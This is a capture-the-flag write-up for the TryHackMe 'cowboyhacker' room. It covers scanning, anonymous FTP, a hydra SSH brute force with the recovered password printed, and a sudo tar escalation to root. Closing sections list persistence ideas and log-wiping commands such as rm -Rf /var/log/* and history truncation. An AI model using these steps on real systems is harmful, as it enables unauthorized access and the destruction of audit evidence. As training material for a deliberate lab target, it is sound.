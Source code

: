 ```yaml
---
title: "THM:cowboyhacker"
subtitle: "TryHackMe CTF room: https://tryhackme.com/room/cowboyhacker"
category: "CTF"
tags: ctf,nmap,gobuster,dirbuster,ftp,hydra,apache,ubuntu,privesc,sudo
---
```

# THM:cowboyhacker

URL: [https://tryhackme.com/room/cowboyhacker](https://tryhackme.com/room/cowboyhacker) [Easy]

Tags: 
<div style="margin-left: 5px;">
{% assign tags = page.tags | split: " " %}
{% for tag in tags %}
<a href="../search/?q={{tag}}" title="Click to search by this tag"><span class="badge bg-secondary">{{tag}}</span></a>
{% endfor %}
</div>
<hr>

## Reconnaissance

Description of the room:

> You were boasting on and on about your elite hacker skills in the bar and a few Bounty Hunters decided they'd take you up on claims! Prove your status is more than just a few glasses at the bar. I sense bell peppers & beef in your future! 

## Scanning

### Scan: `nmap`

Ran the following:

> `nmap -vv xxx.xxx.xxx.xxx`

Interesting ports found to be open:

```
PORT      STATE  SERVICE         REASON
20/tcp    closed ftp-data        conn-refused
21/tcp    open   ftp             syn-ack
22/tcp    open   ssh             syn-ack
80/tcp    open   http            syn-ack
```

*Also see: [nmap.log](nmap.log)*

### Scan: `gobuster`

Ran the following:

> `gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://xxx.xxx.xxx.xxx`

This resulted in two directories being found:

* `/images/` - only images.
* `/server-status` - got `403 Forbidden`.

*Also see: [gobuster.log](gobuster.log)*

## Gaining Access


### FTP Service

Since FTP was running, we log in as `anonymous`:

> `ftp anonymous@xxx.xxx.xxx.xxx`

After doing a directory listing with `ls` or `dir`, we see there are two files there: `locks.txt` and `task.txt`. We retrieve these files back down to our workstation:

> `mget *.txt ./`

This does a (multiple)-get of `*.txt` files and puts them in our current directory on the workstation. The two files:

* [locks.txt](locks.txt)
* [task.txt](task.txt)

### Cracking SSH password for `lin`

We know from the `task.txt` file that the username is `lin`. The contents of `locks.txt` look at lot like leet-speak passwords. So, we can use hydra to see if any of those are the password for the `lin` account:

> `hydra -l lin -P ./locks.txt ssh://10.10.47.229`

And we find that one is found:

```
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-19 21:01:57
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.47.229:22/
[22][ssh] host: 10.10.47.229   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-01-19 21:02:04
```

*Also see: [hydra.log](hydra.log)*

With that username and password, we can SSH into the box:

> `ssh lin@xxx.xxx.xxx.xxx`

And we use the password `RedDr4gonSynd1cat3` found by hydra, above. We are now logged in as an **unprivileged account** and can retrieve the `~/user.txt` flag, the first flag for this room.

## PE: Sudo Privileges

Logged-in as user `lin`, we check to see if we have any `sudo` permission:

> `sudo -l`

We do! Oddly enough, it is for the `tar` command. We can go look up privesc techniques over on gtfobins:

> https://gtfobins.github.io/gtfobins/tar/#sudo

Using this technique, that means that as `tar` is running as root, we could coerce it to run a command upon a checkpoint. For example, it could open a new bash prompt. Since tar would be running as `root`, that bash prompt would be running as root. So, we execute the following:

> `sudo /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash`

You see an error message, but **it does dump you at a root prompt!** From here, one can `cat /root/root.txt` to complete the room. That is the second flag to capture for this room.


## Maintaining Access

This is a test machine. However, in a Red Team scenario, we could:

* Add SSH key to `/root/.ssh/authorized_keys`
* Create a privileged account that wouldn't draw attention (ex: `operations`).
* Install some other backdoor or service.

## Clearing Tracks

This is a test machine. However, in a Red Team scenario, we could:

### Delete relevant logs from `/var/log/` - although that might draw attention.

> `rm -Rf /var/log/*`

### Search and replace our IP address in all logs via: 

> `find /var/log -name "*" -exec sed -i 's/10.10.2.14/127.0.0.1/g' {} \;`

### Wipe bash history for any accounts we used via: 

> `cat /dev/null > /root/.bash_history`
>  
> `cat /dev/null > /home/kathy/.bash_history`
>  
> `cat /dev/null > /home/sam/.bash_history`

## Summary

Completed: `2022-01-19 21:18:28`